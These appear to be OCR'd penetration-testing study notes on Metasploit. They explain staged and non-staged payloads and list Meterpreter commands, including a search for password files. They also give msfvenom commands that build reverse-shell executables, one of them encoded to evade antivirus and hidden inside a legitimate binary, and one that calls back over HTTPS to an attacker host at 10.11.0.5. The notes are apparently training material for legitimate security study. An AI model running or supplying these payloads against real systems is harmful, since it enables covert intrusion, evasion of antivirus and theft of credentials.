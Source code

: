 msf \> services -p 443

msf \> use auxiliary/scanner/smb/smb_version

msf auxiliary(smb_version) \> services -p 443 --rhosts

A non-staged payload is a payload that is sent in its entirety in one go – as
we’ve been doing up to now. A staged payload is usually sent in two parts. The
first part is a small primary payload, which causes the victim machine to
connect back to the attacker, accept a longer secondary payload containing the
rest of the shellcode, and then execute it.

There are several situations where we would prefer to use staged shellcode over
nonstaged:

1. The vulnerability we are exploiting does not have enough buffer space to hold
a full payload. As the first part of a staged payload is typically smaller than
a full payload, these smaller payloads can often save us in tight situations.

2. Antivirus software is detecting embedded shellcode in an exploit. By
replacing the embedded shellcode with a staged payload, we will be removing most
of the malicious part of the shellcode and injecting it directly into the victim
machine memory.

If the user does not specify a payload for an exploit, a reverse Meterpreter
payload is used by default.

Meterpreter is a staged payload. The second stage is a 750k DLL file that is
injected directly into memory. As the DLL file never touches the victim file
system, it is less likely to be detected by antivirus software.

meterpreter \> sysinfo

meterpreter \> getuid

meterpreter \> search -f \*pass\*.txt

注入payload到现有PE文件:

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o
shell_reverse_msf_encoded_embedded.exe

Reverse HTTPS Meterpreter

The reverse_https Meterpreter payload is designed to work just like a standard
meterpreter payload, although the communications on the network look exactly
like normal HTTPS traffic.

msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.5 LPORT=443 -f exe
-o met_https_reverse.exe

The MSF multi/handler module can accept various incoming payloads and handle
them correctly, including single and multi-stage payloads.

root\@kali:\~\# msfconsole

msf \> use exploit/multi/handler

msf exploit(handler) \> set PAYLOAD windows/meterpreter/reverse_https
